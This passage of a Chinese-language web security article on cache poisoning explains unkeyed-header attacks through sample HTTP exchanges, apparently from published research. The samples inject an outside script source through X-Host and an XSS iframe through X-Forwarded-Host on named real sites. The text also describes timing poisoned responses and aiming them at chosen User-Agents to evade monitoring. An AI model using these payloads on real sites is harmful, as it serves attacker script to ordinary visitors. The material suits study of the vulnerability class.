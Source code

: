 
可以尝试使用像Burp Intruder或自定义脚本之类的工具来发送大量请求，但这种笨重的方法是收效甚微的。攻击者可以通过对目标的缓存到期系统进行逆向工程并通过浏览文档和监控网站来预测准确的到期时间来解决这个问题，但这听起来就像是一项艰苦的工作。<br>
幸运的是，许多网站让我们的漏洞人生简单许多。看看unity3d.com中的缓存投毒漏洞：

```
GET / HTTP/1.1
Host: unity3d.com
X-Host: portswigger-labs.net

HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
&lt;script src="https://portswigger-labs.net/sites/files/foo.js"&gt;&lt;/script&gt;
```

 

在请求头中，我们有一个非缓存键输入 – X-Host请求头 – 被用于生成一个脚本导入的标签。响应头“Age”和“max-age”分别指定当前响应的时间和它将过期的时间。总之，这些告诉我们为确保我们的响应被缓存，我们应该发送的payload的确切时间。

### 选择性投毒（Selective Poisoning）

 

HTTP响应头节省了解缓存的内部工作原理的时间。拿下面这个是用了fastly cdn服务的著名网站举例：

```
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 … Firefox/60.0
X-Forwarded-Host: a"&gt;&lt;iframe onload=alert(1)&gt;

HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
&lt;link rel="canonical" href="https://a"&gt;a&lt;iframe onload=alert(1)&gt;
&lt;/iframe&gt; 
```

乍一看起来似乎与第一个例子是一样的。但是，Vary响应头告诉我们User-Agent头可能是缓存键的一部分，手工测试也证实了这一点。这意味着，因为我们声明使用的是Firefox 60，我们的漏洞利用代码（exploit）只会分发给其他Firefox 60用户。我们可以使用一系列受欢迎的User-Agent来确保大多数访问者将会接收到我们的漏洞利用代码（exploit），但这种表现使得我们可以更具选择性的去实施攻击。如果你知道了受害者的User-Agent，则可以向特定人员定制攻击，甚至可以在网站监控团队面前隐藏自己。









### DOM 投毒（DOM Poisoning）

成功利用非缓存键的输入并不总是像复制黏贴xss payload那样简单，看下面这个例子：

```
GET /dataset HTTP/1.1
Host: catalog.data.gov
X-Forwarded-Host: canary

HTTP/1.1 200 OK
Age: 32707
X-Cache: Hit from cloudfront 
…
&lt;body data-site-root="https://canary/"&gt;
```
